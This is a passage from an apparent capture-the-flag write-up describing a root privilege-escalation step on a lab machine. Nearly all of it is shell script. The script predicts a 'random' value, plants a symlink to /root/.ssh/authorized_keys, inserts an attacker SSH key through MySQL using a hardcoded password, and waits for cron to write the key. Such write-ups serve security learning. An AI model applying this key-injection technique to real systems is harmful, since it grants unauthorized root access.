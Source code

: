         return 0;
    }
    EOF
    
    echo '[*] Writing c code to get "random" int'
    gcc -o /var/tmp/d /var/tmp/d.c
    randint=$(/var/tmp/d)
    echo "[+] Got random int: $randint"
    echo "[*] Cleaning up code"
    rm /var/tmp/d /var/tmp/d.c
    

#### Generate Symlink

Next I need to create the symlink. I’ll pick an ID kind of randomly (223
works), and then get the hash to create the filename:

    
    
    id=223
    fn=$(echo -n "${randint}${id}" | md5sum | cut -d' ' -f1)
    echo "[+] Filename will be: /var/local/$fn"
    ln -s /root/.ssh/authorized_keys /var/local/$fn
    echo "[+] Created symlink to /root/.ssh/authorized_keys"
    

#### Update Database

The next part of the script will update the database with the id 223 and the
rest being the parts of my public SSH key:

    
    
    ssh="ssh-ed25519"
    key="AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d"
    user="nobody@nothing"
    echo "[*] Writing to DB: insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
    mysql -u crossfit -poeLoo~y2baeni crossfit -e "insert into messages(id, name, email, message) values ($id, '$ssh', '$user', '$key')"
    

#### Wait

So I don’t have to keep checking the time, I’ll run a little countdown timer
until the next cron runs:

    
    
    secleft=$((60 - $(date +%-S)))
    echo "[*] Sleeping $secleft seconds until cron"
    nextmin=$((1 + $(date +%-M)))
    while [[ $(date +%-M) -ne $nextmin ]]; do
        echo -en "\r[*] $((60 - $(date +%-S))) seconds left"
        sleep 0.5
    done
    echo -e "\r[*] Try logging in as root with SSH key"
    
